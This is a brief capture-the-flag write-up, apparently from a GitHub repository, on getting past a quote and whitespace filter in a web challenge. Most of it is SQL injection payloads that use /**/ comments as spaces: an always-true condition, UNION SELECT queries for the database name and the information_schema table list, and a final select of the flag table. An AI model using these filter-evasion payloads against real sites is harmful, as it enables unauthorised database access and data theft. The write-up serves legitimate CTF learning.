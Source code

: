 Now quotes and whitespaces are filtering. I looked a bit at another writeup and saw a perfect solution to pass filter:
<pre>
../?q=5512/**/or/**/true
</pre>
This query will print all quotes of the day.<br>
Let's know a db name:
<pre>
../?q=8/**/and/**/false/**/union/**/select/**/123,database()
</pre>
Now fetch tables:
<pre>
../?q=8/**/and/**/false/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()
</pre>
Ok, let's get a flag:
<pre>
?q=8/**/and/**/1=2/**/union/**/select/**/*/**/from/**/alkdjf4iu
</pre>
GL
